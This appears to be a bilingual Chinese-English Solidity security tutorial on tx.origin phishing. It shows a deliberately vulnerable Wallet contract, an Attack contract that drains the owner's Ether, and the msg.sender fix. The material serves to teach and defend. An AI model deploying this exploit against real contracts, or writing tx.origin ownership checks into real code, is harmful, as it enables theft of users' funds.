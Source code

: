 ## 带有 tx.origin 的网络钓鱼
msg.sender和 和有什么区别tx.origin？
如果合约A调用B，B调用C，则C中msg.sender是B，tx.origin是A。

漏洞
恶意合约可以欺骗合约所有者调用只有所有者才能调用的函数。

What's the difference between msg.sender and tx.origin?
If contract A calls B, and B calls C, in C msg.sender is B and tx.origin is A.

Vulnerability
A malicious contract can deceive the owner of a contract into calling a function that only the owner should be able to call.
```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

/*
Wallet is a simple contract where only the owner should be able to transfer
Ether to another address. Wallet.transfer() uses tx.origin to check that the
caller is the owner. Let's see how we can hack this contract
*/

/*
1. Alice deploys Wallet with 10 Ether
2. Eve deploys Attack with the address of Alice's Wallet contract.
3. Eve tricks Alice to call Attack.attack()
4. Eve successfully stole Ether from Alice's wallet

What happened?
Alice was tricked into calling Attack.attack(). Inside Attack.attack(), it
requested a transfer of all funds in Alice's wallet to Eve's address.
Since tx.origin in Wallet.transfer() is equal to Alice's address,
it authorized the transfer. The wallet transferred all Ether to Eve.
*/

contract Wallet {
    address public owner;

    constructor() payable {
        owner = msg.sender;
    }

    function transfer(address payable _to, uint _amount) public {
        require(tx.origin == owner, "Not owner");

        (bool sent, ) = _to.call{value: _amount}("");
        require(sent, "Failed to send Ether");
    }
}

contract Attack {
    address payable public owner;
    Wallet wallet;

    constructor(Wallet _wallet) {
        wallet = Wallet(_wallet);
        owner = payable(msg.sender);
    }

    function attack() public {
        wallet.transfer(owner, address(wallet).balance);
    }
}
```

### 预防技术
使用msg.sender而不是tx.origin

Preventative Techniques
Use msg.sender instead of tx.origin
```js
function transfer(address payable _to, uint256 _amount) public {
  require(msg.sender == owner, "Not owner");

  (bool sent, ) = _to.call{ value: _amount }("");
  require(sent, "Failed to send Ether");
}
```
